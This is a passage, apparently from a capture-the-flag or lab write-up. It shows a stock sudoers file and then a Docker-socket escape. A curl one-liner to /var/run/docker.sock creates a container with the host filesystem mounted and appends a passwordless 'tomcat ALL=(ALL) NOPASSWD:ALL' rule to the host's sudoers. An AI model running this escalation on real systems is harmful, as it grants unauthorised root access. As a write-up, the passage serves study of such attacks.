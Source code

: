     # See the man page for details on how to write a sudoers file.
    #
    Defaults        env_reset
    Defaults        mail_badpass
    Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

    # Host alias specification

    # User alias specification

    # Cmnd alias specification

    # User privilege specification
    root    ALL=(ALL:ALL) ALL

    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL

    # Allow members of group sudo to execute any command
    %sudo   ALL=(ALL:ALL) ALL

    # See sudoers(5) for more information on "#include" directives:

    #includedir /etc/sudoers.d



I'll add a line to the end with the command:



    echo "tomcat ALL=(ALL) NOPASSWD:ALL" >> /rootfs/etc/sudoers



In the one-liner:



    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "echo \"tomcat ALL=(ALL) NOPASSWD:ALL\" >> /rootfs/etc/sudoers"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost
    /containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
